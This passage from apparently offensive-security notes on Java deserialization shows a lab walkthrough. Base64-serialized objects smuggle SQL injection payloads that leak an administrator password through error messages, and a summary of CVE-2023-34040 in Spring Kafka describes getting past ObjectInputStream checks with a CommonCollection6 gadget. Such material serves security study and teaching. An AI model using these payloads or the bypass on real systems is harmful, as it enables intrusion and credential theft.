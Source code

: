 ```bash
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAGTEnIE9SREVSIEJZIDggTElNSVQgMS0tIC0=
Deserialized data id: 1\' ORDER BY 8 LIMIT 1-- -

<p class=is-warning>java.lang.ClassCastException: Cannot cast data.productcatalog.ProductTemplate to lab.actions.common.serializable.AccessTokenUser</p>
```

4. Exploited an error-based [SQL Injection](SQL%20Injection.md) and exfiltrated the administrator password:
```bash
$ javac Main.java && java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAYicgVU5JT04gU0VMRUNUIE5VTEwsIE5VTEwsIE5VTEwsIENBU1QocGFzc3dvcmQgQVMgbnVtZXJpYyksIE5VTEwsIE5VTEwsIE5VTEwsIE5VTEwgRlJPTSB1c2VycyAtLSAt
Deserialized data id: '\' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users -- -'

<p class=is-warning>java.io.IOException: org.postgresql.util.PSQLException: ERROR: invalid input syntax for type numeric: &quot;lpag2mjh4m8k3qvx87p2&quot;</p>
```

### CVE-2023-34040 - Java Deserialization in Spring Kafka

>Overwriting the `ObjectInputStream` function becomes widespread use for defending against Java deserialization attack. It could make this problem alleviated. When overwriting the `ObjectInputStream`, the `resolveClass` would be hooked and potentially dangerous functions revoking might be found out. [^34040]

[^34040]: [Java Deserialization Vulnerability Still Alive](https://blog.pyn3rd.com/2023/10/20/Java-Deserialization-Vulnerability-Still-Alive/), pyn3rd.com

![](attachments/34040_1.png)

I could simply escape this verification in a way of encapsulation. After initializing `CustomExceptionClass` , it could be inputted into the instance of `DeserializationExeception` as an argument. Last step is to embed the `CommonCollection6` gadget in a static code block.

In conclusion, the weakness of customized `ObjectInputStream` contributes to Spring Kafka deserialization vulnerability. It only verifies the top layer function in stack.


## dotNET


[^polyglot]: https://github.com/kunte0/phar-jpg-polyglot/tree/master